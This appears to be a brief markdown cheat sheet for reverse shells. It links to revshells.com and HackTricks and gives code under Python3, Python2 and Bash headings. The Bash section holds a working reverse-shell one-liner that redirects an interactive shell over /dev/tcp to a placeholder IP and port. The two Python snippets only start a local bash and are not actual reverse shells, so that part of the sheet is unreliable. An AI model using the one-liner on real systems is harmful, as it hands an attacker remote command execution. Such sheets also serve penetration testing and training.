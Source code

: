 # Resources
- http://www.revshells.com
- https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/linux

---

# Python3
```python
import subprocess

def spawn_bash():
    # Spawns an interactive Bash shell
    subprocess.run("/bin/bash")

if __name__ == "__main__":
    spawn_bash()

```

# Python2
```python
import subprocess

def spawn_bash():
    # Spawns an interactive Bash shell
    subprocess.call("/bin/bash")

if __name__ == "__main__":
    spawn_bash()

```

# BASH
```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP>/<port> 0>&1
```
